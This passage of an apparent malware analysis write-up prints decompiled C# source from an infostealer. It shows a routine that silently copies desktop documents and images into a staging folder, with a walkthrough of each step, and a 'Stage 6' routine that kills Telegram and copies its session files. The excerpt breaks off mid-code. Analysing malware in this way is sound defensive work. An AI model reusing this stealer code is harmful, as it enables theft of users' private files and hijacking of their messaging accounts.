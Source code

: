 ```csharp
					{
						File.Delete(Path.Combine(Variables.workdir + "\\Grabbers\\DesktopFiles", list2[j]));
					}
					File.Copy(list[j], Path.Combine(Variables.workdir + "\\Grabbers\\DesktopFiles", list2[j]));
				}
			}
			catch
			{
			}
		}
	}
}
```

`GrabberDesktop` function:

- Creates a target directory at `Variables.workdir\Grabbers\DesktopFiles` if it doesn't exist.
- Scans all files located on the user’s desktop (`Variables.desktop`).
- Filters and selects files that have `.pdf`, `.txt`, `.sql`, `.jpg`, or `.png` extensions.
- Increments `Variables.foundFilesFromDesktop` for each matching file found.
- Extracts filenames (without path) into a second list to prepare for copying.
- Before copying, checks if a file with the same name already exists at the destination:
    - If it does, deletes the existing file to prevent overwriting issues.
- Copies each selected file from the desktop to the `DesktopFiles` directory.
- Silently handles any exceptions via a `try-catch` block — no error reporting or logging.

# Stage 6: Grabber Telegram sesssion

```csharp
using System;
using System.Diagnostics;
using System.IO;
using Main;

namespace Messengers
{
	// Token: 0x02000005 RID: 5
	public class Telegram
	{
		// Token: 0x0600000D RID: 13 RVA: 0x00002864 File Offset: 0x00000A64
		public static void GrabberTelegramSession()
		{
			string text = Telegram.SearchPathTelegram();
			try
			{
				Telegram.TelegramProcessKill(ref text);
				bool flag = text == "Not Found!";
				if (!flag)
				{
					Variables.telegramSessionFound = "Found! Success";
					Directory.CreateDirectory(Variables.workdir + "\\Grabbers\\TelegramSession");
					string text2 = Variables.workdir + "\\Grabbers\\TelegramSession";
					string text3 = text;
					foreach (string text4 in Directory.GetFiles(text3))
					{
						bool flag2 = File.Exists(text2 + "\\" + Path.GetFileName(text4));
						if (flag2)
						{
							File.Delete(text2 + "\\" + Path.GetFileName(text4));
						}
						File.Copy(text4, text2 + "\\" + Path.GetFileName(text4));
```